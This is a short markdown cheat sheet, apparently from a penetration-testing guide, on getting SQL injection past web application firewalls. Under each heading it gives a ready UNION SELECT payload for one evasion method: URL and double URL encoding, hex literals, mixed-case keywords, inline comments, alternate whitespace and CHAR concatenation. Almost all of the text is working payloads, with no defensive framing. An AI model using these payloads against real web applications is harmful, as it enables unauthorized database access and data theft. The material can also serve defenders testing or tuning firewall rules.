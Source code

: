 ## 13. WAF Bypass Techniques for SQL Injection

### 1. Using Encoding and Obfuscation

#### URL Encoding

Encode parts of the payload to bypass basic keyword detection.
```sql
%27%20UNION%20SELECT%20NULL,NULL,NULL--
```

#### Double URL Encoding

Double encode the payload to evade detection mechanisms.
```sql
%2527%2520UNION%2520SELECT%2520NULL,NULL,NULL--
```

#### Hex Encoding

Use hexadecimal encoding for the payload.
```sql
' UNION SELECT 0x61646D696E, 0x70617373776F7264 --
```

### 2. Case Manipulation and Comments

#### Mixed Case

Change the case of SQL keywords.
```sql
' uNioN SeLecT NULL, NULL --
```

#### Inline Comments

Insert comments within SQL keywords to obfuscate the payload.
```sql
' UNION/**/SELECT/**/NULL,NULL --
```

### 3. Whitespace and Special Characters

#### Using Different Whitespace Characters

Replace spaces with other whitespace characters like tabs or newlines.
```sql
' UNION%0D%0ASELECT%0D%0A NULL,NULL --
```

#### Concatenation with Special Characters

Use special characters and concatenation to build the payload dynamically.
```sql
' UNION SELECT CHAR(117)||CHAR(115)||CHAR(101)||CHAR(114), CHAR(112)||CHAR(97)||CHAR(115)||CHAR(115) --
```
